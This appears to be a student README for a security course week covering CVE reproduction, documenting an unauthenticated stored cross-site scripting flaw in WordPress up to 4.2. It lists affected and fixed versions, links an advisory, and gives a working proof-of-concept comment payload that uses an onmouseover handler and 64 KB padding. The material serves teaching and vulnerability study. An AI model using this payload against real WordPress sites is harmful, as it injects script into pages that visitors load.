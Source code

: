 # Codepath-Week-7

1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
- Summary: 
	- Tested in version: 4.2
	- Fixed in version: 4.2.1
	- Type of Vulnerability: XSS
	- Sourcecode/walkthrough: https://klikki.fi/adv/wordpress2.html
- Steps to recreate:
	- Create a comment on website with a string following the format: 

					<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
<img src="XSS - Unauthenticated Stored XSS.gif" width="800">
